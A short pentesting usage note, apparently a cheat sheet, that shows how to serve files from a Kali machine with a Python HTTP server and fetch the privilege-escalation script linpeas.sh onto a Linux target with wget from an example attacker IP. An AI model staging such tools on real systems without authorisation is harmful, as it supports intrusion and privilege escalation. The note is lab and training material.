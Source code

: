 # Usage

## Host a simple HTTP server on Kali  
in /root/  
mkdir transfer  
python3 -m http.server 80  

Copy a file into this /root/transfer/ directory: linpeas.sh

## Linux client to get files from HTTP server
wget http://\<Kali IP address>/\<filename>
  * example: wget http://192.168.57.5/linpeas.sh

